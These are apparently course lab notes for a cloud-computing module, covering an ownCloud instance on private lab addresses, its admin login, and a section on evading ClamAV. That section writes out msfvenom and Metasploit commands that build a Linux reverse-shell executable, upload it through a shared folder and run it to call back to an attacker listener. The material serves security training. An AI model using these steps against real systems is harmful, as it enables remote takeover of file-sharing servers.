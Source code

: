 # 19 - Cloud Computing

## **Module 19 - Cloud Computing**



### Using Owncloud&#x20;

* Hosted at ubuntu machine http://10.10.10.9/owncloud. admin:qwerty@123
* Create users and share files to users.
* Install Desktop client and share and view files

Bypassing ClamAV

Cloud is currently protected by ClamAV so no malicious file is uploaded.

* `msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.10.11 LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf` generate a linux based executable&#x20;
* Type `use multi/handler`
* Type `set payload linux/x86/shell/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Type `set LPORT 4444`
* Type `run`
* Upload payload in shared folder.
* Download using admin, Set permission to `chmod -R 755 exploit.elf`
* Execute exploit `./exploit.elf`

